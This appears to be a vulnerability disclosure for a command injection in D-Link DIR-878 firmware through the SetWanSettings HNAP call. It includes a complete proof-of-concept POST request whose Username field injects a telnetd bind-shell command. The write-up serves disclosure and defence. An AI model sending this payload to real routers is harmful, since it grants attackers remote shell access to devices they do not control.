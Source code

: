 

# D-Link Vulnerability

Vendor:D-Link

Product:DIR_878

Version:DIR_878_FW1.30B08_Hotfix_02(Download Link:https://support.dlink.com/ProductInfo.aspx?m=DIR-878)

Type:Command Execution

Author:Jiaqian Peng,Huizhao Wang

Institution:pengjiaqian@iie.ac.cn,wanghuizhao@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in D-link Technology router with firmware which was released recently.A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted /HNAP1 POST request. This occurs when any HNAP API function triggers a call to the `system` function with untrusted input from the request body for the `SetWanSettings` API function (PPTP,need authentication).

**Command Execution**

`prog.cgi` binary:

In `SetWanSettings` function,`Username`、`Password` is directly passed by the attacker.After that, call the function sub_4661DC.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

As you can see here, the input has not been checked.And then,call the function nvram_safe_set to store this input.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

`rc` binary:

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

Eventually, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.What’s more interesting is that in the front-end interface, the user’s input is not checked either.



## PoC

We set `Username` as **';telnetd -l /bin/sh -p 9999 -b 0.0.0.0;echo'** , and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetWanSettings"
HNAP_AUTH: BDDA68629752DBE57718D89602A836E5 1638772968264
Content-Length: 1114
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/Internet.html
Cookie: uid=4DsfjbH6

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetWanSettings xmlns="http://purenetworks.com/HNAP1/">
			<Type>StaticPPTP</Type>
			<Username>';telnetd -l /bin/sh -p 9999 -b 0.0.0.0;echo'</Username>
			<Password>e6c8b6d180e425ff4ca7b82f02b172861c13b6d130e425294ca7d32f024372861c13b6d130e425294ca7d32f024372861c13b6d130e425294ca7d32f02437286</Password>
			<MaxIdleTime>300</MaxIdleTime>
			<HostName/>
			<VPNIPAddress/>
			<VPNSubnetMask/>
			<VPNGateway/>
			<ServiceName>119.75.217.109</ServiceName>
			<AutoReconnect>false</AutoReconnect>
			<IPAddress>192.168.0.5</IPAddress>
			<SubnetMask>255.255.255.0</SubnetMask>
			<Gateway>192.168.0.1</Gateway>
			<ConfigDNS>
				<Primary>162.242.211.137</Primary>
				<Secondary>78.46.223.24</Secondary>
			</ConfigDNS>
			<MacAddress/>
			<MTU>1400</MTU>
			<DsLite_Configuration/>
			<DsLite_AFTR_IPv6Address/>
			<DsLite_B4IPv4Address/>
		</SetWanSettings>
	</soap:Body>
</soap:Envelope>
```

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/6.png" style="zoom:100%;" /></div


## PoC

This will triger the `start_wan` method, and then get a shell!

<div  align="center"><img src="./images/7.png" style="zoom:100%;" /></div>
